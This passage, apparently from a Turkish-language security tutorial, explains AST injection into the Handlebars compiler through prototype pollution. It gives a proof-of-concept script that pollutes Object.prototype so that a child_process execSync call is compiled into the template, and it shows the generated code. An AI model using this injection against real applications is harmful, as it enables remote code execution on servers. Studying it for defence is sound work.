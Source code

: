 ```
    this.options.blockParams.shift();

    this.isSimple = bodyLength === 1;
    this.blockParams = program.blockParams ? program.blockParams.length : 0;

    return this;
}
...


```

AST Object (aslında bir string) verilen derleyici bunu accept metoduna gönderir ve accept, Compiler'ın this[node.type]'ını çağırır. Daha sonra AST'nin body özelliğini alır ve bunu fonksiyon oluşturmak için kullanır

```
const Handlebars = require('handlebars');

Object.prototype.type = 'Program';
Object.prototype.body = [{
    "type": "MustacheStatement",
    "path": 0,
    "params": [{
        "type": "NumberLiteral",
        "value": "console.log(process.mainModule.require('child_process').execSync('id').toString())"
    }],
    "loc": {
        "start": 0,
        "end": 0
    }
}];


const source = `Hello {{ msg }}`;
const template = Handlebars.precompile(source);

console.log(eval('(' + template + ')')['main'].toString());

/*
function (container, depth0, helpers, partials, data) {
    var stack1, lookupProperty = container.lookupProperty || function (parent, propertyName) {
        if (Object.prototype.hasOwnProperty.call(parent, propertyName)) {
            return parent[propertyName];
        }
        return undefined
    };

    return ((stack1 = (lookupProperty(helpers, "undefined") || (depth0 && lookupProperty(depth0, "undefined")) || container.hooks.helperMissing).call(depth0 != null ? depth0 : (container.nullContext || {}), console.log(process.mainModule.require('child_process').execSync('id').toString()), {
        "name": "undefined",
        "hash": {},
        "data": data,
        "loc": {
            "start": 0,
            "end": 0
        }
    })) != null ? stack1 : "");
}
*/


```
